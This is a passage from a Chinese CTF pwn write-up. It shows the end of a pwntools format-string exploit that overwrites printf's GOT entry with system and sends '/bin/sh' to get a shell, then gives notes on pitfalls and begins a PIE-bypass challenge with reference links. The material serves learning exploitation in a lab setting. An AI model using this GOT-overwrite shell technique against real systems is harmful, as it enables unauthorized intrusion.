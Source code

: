 ```
# payload= fmtstr_payload(输入字符串的偏移量,{要改的got表:got表改之后的地址})
io.sendline(payload)
io.sendline('/bin/sh\x00') #读取/bin/sh，因为我们改写了got表，所以字符串会读取到system中。getshell
io.recv()

io.interactive()
```

**这一道题我遇到的坑：**

**第一是以为题目出错了，没给libc，不知道怎么使用libc。其实使用 `libc = elf.libc` 即可正常继续下去**

**第二个坑是要学会使用快速改写got表的命令，即`payload= fmtstr_payload(6,{printf_got:system})` ,注意这里的6是值我们输入的格式化字符串的偏移量**

### [Week3] PIE

PIE的题目，第一次做。

main函数如下：

<div align=center><img src="../images/2024/09/19/t_pwn20.png" alt="pwn" border="0" width="70%" height="80%"></div>

参考了以下文章：

[暑期pwn! pwn! pang! (三)：开了pie的rop绕过](https://blog.csdn.net/qq_43342413/article/details/95639163)

[PIE保护绕过](https://xz.aliyun.com/t/12809?time__1311=GqGxuDcD2Dg0YGN4WxUxYq0KeGK%2FbrgGbD&u_atoken=53d565cde096feda882ff68ca51a10af&u_asig=0a472f9017266715190117823e0052)

[CTF必备技能丨Linux Pwn入门教程——PIE与bypass思路](https://www.cnblogs.com/ichunqiu/p/11350476.html)

主要是第一篇文章比较符合本题。

**开启了PIE保护之后，每次程序运行的程序基址都会不一样。在第二、第三篇文章有详细介绍。**

因为每次程序基址都不同，我们就没办法利用gadget了

你问我为什么？

看下图：
